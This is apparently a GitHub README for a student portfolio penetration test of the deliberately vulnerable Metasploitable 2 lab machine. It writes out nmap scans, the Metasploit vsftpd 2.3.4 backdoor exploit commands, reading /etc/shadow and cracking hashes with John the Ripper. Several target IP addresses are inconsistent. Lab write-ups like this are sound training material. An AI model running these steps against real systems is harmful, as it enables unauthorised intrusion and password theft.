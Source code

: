 # Penetration-Testing-Project
Objective:
To perform a penetration test on the target system, identify vulnerabilities, exploit them, and document the process for learning and portfolio purposes.

Target Information:

    IP Address: 172.28.10.11
    OS: Linux (Metasploitable 2)
    Services Detected: FTP, SSH, Telnet, Smtp, Domain, Http, Rpcind, Netbios-SSN, Microsoft-ds,Exec, Login, Shell, Rmiregistry,Ingreslock,NFS, Ccproxy-ftp, Mysq, Postgresql, Vnc, X11, IRC, ajp13

# Project Description
This project demonstrates a full penetration testing workflow conducted on the intentionally vulnerable Metasploitable 2 virtual machine. The project covers reconnaissance, exploitation, and post-exploitation steps, showcasing practical skills in vulnerability identification and exploitation.

# Technologies Used
Hyper-V Manager, Virtual box, Linux, Nmap, Metasploit, John the ripper, 
# Steps or Feautures 
1. Reconnaissance (Information Gathering)

    Scanned the target system for open ports and services using nmap.

nmap -sS -Pn 178.28.10.11

Identified service versions and operating system details.

![nmap scan](Nmap_scan.png) ![nmap scan](services.png) 

nmap -sV -O 178.28.10.11
2. Vulnerability Identification<

    Researched vulnerabilities associated with the detected services using:
        searchsploit for local exploit searches:

        searchsploit vsftpd 2.3.4

        Online databases such as Exploit-DB and CVE Details.

3. Exploitation

    Used Metasploit Framework to exploit the vsftpd 2.3.4 backdoor vulnerability:
        Launched Metasploit:

msfconsole

Selected the exploit:

use exploit/unix/ftp/vsftpd_234_backdoor

Configured the exploit:

        set RHOST 172.28.10.11
        exploit

    Successfully gained shell access to the target system.

![exploit with metasploit](exploit.png)

4. Post-Exploitation

    Explored the system to gather sensitive information:
        Extracted /etc/shadow to obtain password hashes:

    cat /etc/shadow

Initiated password cracking using John the Ripper:

    john --wordlist=/usr/share/wordlists/rockyou.txt password_hash.txt

![password](passwordxtrat.png)

5. Documentation and Reporting

    Documented all findings, including vulnerabilities exploited, tools used, and commands executed.
    Provided recommendations to mitigate identified weaknesses.


Commands Used

Include a dedicated section in your GitHub for all commands used during the test. Here’s an example:

## Commands Used

### Reconnaissance
- `nmap -sS -Pn 172.28.11.10 `: Stealth scan to discover open ports.
- `nmap -sV -O 172.28.11.10`: Detect service versions and OS.

### Exploitation
- `msfconsole`: Launch Metasploit.
- `use exploit/unix/ftp/vsftpd_234_backdoor`: Select the exploit.
- `set RHOST 172.28.10.11`: Set the target IP.
- `exploit`: Execute the exploit.

### Post-Exploitation
- `cat /etc/shadow`: Extract password hashes.
- `john --wordlist=/usr/share/wordlists/rockyou.txt password_hash.txt`: Crack passwords.

